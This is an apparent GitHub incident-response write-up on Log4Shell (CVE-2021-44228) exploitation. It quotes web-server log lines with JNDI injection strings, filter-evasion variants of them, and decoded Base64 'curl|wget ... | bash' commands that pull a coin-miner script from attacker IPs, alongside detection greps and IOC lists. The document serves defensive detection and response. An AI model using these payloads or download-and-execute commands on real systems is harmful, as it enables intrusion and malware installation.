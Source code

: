 # CVE-2021-44228

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36](https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.

![ls.sh](lssh-download.png)

``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

A certain number of other IOCs appear into ``ls[.]sh`` file that are listed bellow

**Stage 4**

Triggered by contrab

``lh2[.]sh`` - [0579a8907f34236b754b07331685d79e](https://www.virustotal.com/gui/file/7e9663f87255ae2ff78eb882efe8736431368f341849fec000543f027bdb4512)

## Example 2 evasion

JNDI everywhere

**Stage 1**

```bash
45.155.205.233 - - [12/Dec/2021:05:04:50 +0000] "GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}"
```

```bash
109.237.96.124 - - [12/Dec/2021:07:31:51 +0000] "GET /?x=${jndi:ldap://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}"
```

Similar as example 1 stage 1

## Scans to be identified

```bash
167.172.44.255 - - [13/Dec/2021:08:20:30 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:24:52 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:47:21 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
167.172.44.255 - - [13/Dec/2021:10:41:45 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
167.172.44.255 - - [13/Dec/2021:11:07:06 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:389/LegitimateJavaClass}
167.172.44.255 - - [14/Dec/2021:01:50:04 +0000] "GET / HTTP/1.0" 200 11176 "${jndi:ldap://167.172.44.255:1389/Lazn}" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/Lazn}"
```

```bash
171.25.193.78 - - [13/Dec/2021:19:18:32 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://193.3.19.159:53/c}"
```

171.25.193.78 is a TOR end point and 193.3.19.159 is a CN hoster hosted in RU

```bash
139.177.180.120 - - [14/Dec/2021:02:27:04 +0000] "GET / HTTP/1.1" 200 11176 "${jndi:dns://51-91-24-161.scanworld.net/ref}" "${jndi:dns://51-91-24-161.scanworld.net/ua}"
```

## Scans of security researchers

### Kryptos Logic scans

```bash
${jndi:ldap://http80useragent.kryptoslogic-cve-2021-44228.com/http80useragent}
````

Host [kryptoslogic-cve-2021-44228.com](http://kryptoslogic-cve-2021-44228.com/) is operated by Kryptos Logic for the purposes of detected hosts vulnerable to CVE-2021-44228.

### Alphastrike.io scans

```bash
45.83.67.63 - - [13/Dec/2021:03:27:46 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 404 360 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

## Reponse(s)

The most important in the response is to understand what has been executed with the JNDI call.

### Example 1

```bash
45.155.205.233 - - [12/Dec/2021:05:04:50 +0000] "GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx}"
```

You should check outbound connections
1. to 45.155.205.233 port 12344/tcp
2. to 45.155.205.233 port 5874/tcp from the decoded Base64

### Example 2

```bash
212.193.57.225 - - [12/Dec/2021:05:58:32 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://82.118.18.201:1534/Basic/Command/Base64/KGN1cmwgLXMgODIuMTE4LjE4LjIwMS9saC5zaHx8d2dldCAtcSAtTy0gODIuMTE4LjE4LjIwMS9saC5zaCl8YmFzaA==}"
```

You should check outbound connections
1. to 82.118.18.201 port 1534/tcp
2. to 82.118.18.201 port 80/tcp from the decoded Base64

Also check the presence of 
1. ls[.]sh file from the decoded Base64
## IOCs

45.155.205.233   
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
92.242.40.21  
82.118.18.201
93.189.42.8
195.54.160.149
167.172.44.255
171.25.193.78
193.3.19.159
139.177.180.120
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b 
0579a8907f34236b754b07331685d79e